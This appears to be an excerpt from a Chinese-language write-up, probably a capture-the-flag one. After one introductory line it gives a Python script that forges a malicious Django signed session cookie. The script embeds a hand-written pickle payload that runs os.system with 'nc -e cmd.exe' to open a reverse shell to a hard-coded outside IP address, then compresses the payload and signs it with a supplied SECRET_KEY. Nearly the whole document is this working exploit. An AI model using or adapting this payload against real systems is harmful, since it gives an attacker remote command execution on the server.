 在理解之后便有一下生成恶意cookie的代码

```python
import base64
import datetime
import json
import re
import time
import zlib
import pickle
from django.utils import baseconv
from django.utils.crypto import constant_time_compare, salted_hmac
from django.utils.encoding import force_bytes
from django.utils.module_loading import import_string
from django import core
from django.core import signing


myexp=b'''cbuiltins
globals
(tRp100
cbuiltins
getattr
p101
(g100
S'get'
tR(S'builtins'
tRp103
g101
(g103
S'eval'
tR(S'eval(\'\'\'__import__('os').system('nc -e "cmd.exe /K" 39.108.164.219 60000 -d')\'\'\')'
tR.'''
def pickle_exp(SECRET_KEY):
    data = myexp
    compress=True
    # Flag for if it's been compressed or not
    is_compressed = False
    salt='django.contrib.sessions.backends.signed_cookies'
    if compress:
        # Avoid zlib dependency unless compress is being used
        compressed = zlib.compress(data)
        if len(compressed) < (len(data) - 1):
            data = compressed
            is_compressed = True
    base64d = signing.b64_encode(data).decode()
    if is_compressed:
        base64d = '.' + base64d
    print(signing.TimestampSigner(key=SECRET_KEY, salt=salt).sign(base64d))


pickle_exp("asdasdasdasdas")

```
